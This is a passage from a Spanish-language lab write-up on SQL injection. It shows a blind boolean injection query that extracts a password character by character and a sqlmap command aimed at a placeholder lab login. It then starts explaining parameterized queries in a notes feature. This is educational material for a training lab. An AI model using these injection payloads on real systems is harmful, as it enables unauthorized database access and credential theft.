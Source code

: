 <div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      SQL
      <button class="copy-button" onclick="copyToClipboard()">Copiar</button>
    </div>
    <pre><code class="language-sql">SELECT id, username FROM users WHERE username = 'admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)</code></pre>
  </div>
</div>
Si la aplicación nos devuelve un redirección 302, significa que hemos encontrado el primer carácter de la contraseña. 

Esto es muy tedioso ya que deberíamos de ir carácter a carácter, por tanto, vamos a hacer uso de un script que lo hace automáticamente.

También podemos hacer uso de la herramienta externa `sqlmap` para llevar a cabo estos ataques con los parámetros:

<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      Bash
      <button class="copy-button" onclick="copyToClipboard()">Copiar</button>
    </div>
    <pre><code class="language-bash">sqlmap -u http://MACHINE_IP:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dumpy</code></pre>
  </div>
</div>

<div style="text-align: center; ">
    <img src="../assets/images/Labs/IntroSQLi/Untitled 10.png" alt="Untitled" onclick="openModal(this.src)" />
</div>

## Vulnerable Notes

Nos hemos topado con una base de datos que tiene todos los fallos anteriores fixed, por tanto, tendremos que buscar una nueva manera de poder acceder a la base de datos.

<div style="text-align: center; ">
    <img src="../assets/images/Labs/IntroSQLi/Untitled 11.png" alt="Untitled" onclick="openModal(this.src)" />
</div>

Aquí entran las *notes* que son una función donde se pueden añadir nuevas notas. Estas no son directamente vulnerables ya que se insertan notas de forma segura ya que usa *consultas paramétricas*. Con este tipo de consultas, la declaración se especifica con *placeholders* que son “?”.

Luego el usuario introduce cada parámetro en la consulta.

<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      SQL
      <button class="copy-button" onclick="copyToClipboard()">Copiar</button>
    </div>
    <pre><code class="language-sql">INSERT INTO notes (username, title, note) VALUES (?,?,?)</code></pre>
  </div>
</div>
